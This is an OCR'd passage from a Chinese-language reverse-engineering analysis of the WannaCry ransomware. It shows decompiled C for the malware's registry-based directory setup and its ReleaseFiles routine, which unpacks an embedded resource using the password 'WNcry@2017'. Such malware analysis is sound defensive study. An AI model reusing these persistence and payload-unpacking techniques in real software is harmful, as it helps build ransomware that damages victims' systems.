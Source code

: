 ```c
cbData = 519;  

v3 = RegQueryValueExA(hKey, ValueName, 0, 0, (LPBYTE)&Buffer, &cbData);  

v2 = v3 == 0;  

if ( !v3 )  

SetCurrentDirectoryA(&Buffer);  

}  

RegCloseKey(hKey);  

if ( v2 )  

break;  

}  

if ( ++v12 >= 2 )  

return 0;  

}  

return 1;  

}  
```

可见病毒创建了一个注册表项
并将当前病毒主体所在位置的决定路径设置到注册表的
HKEY_LOCAL_MACHINESOFTWARE 下

### 5.2.3 ReleaseFiles 释放资源文件

```c
int __cdecl ReleaseFiles(HMODULE hModule, char *Str) {  

hRsrc = FindResourceA(hModule, (LPCSTR)0x80A, Type);

HRSRC = hRsrc;  

if ( !hRsrc )  

return 0;  

hGlobal = LoadResource(hModule, hRsrc);  

if ( !hGlobal )                               // 将资源载入到内存并锁定  

return 0;  

lpRes = LockResource(hGlobal);  

if ( !lpRes )  

return 0;  

ResourceSize = SizeofResource(hModule, HRSRC);

v7 = sub_4075AD(lpRes, ResourceSize, Str);    // str="WNcry@2017" 函数返回1||0  

```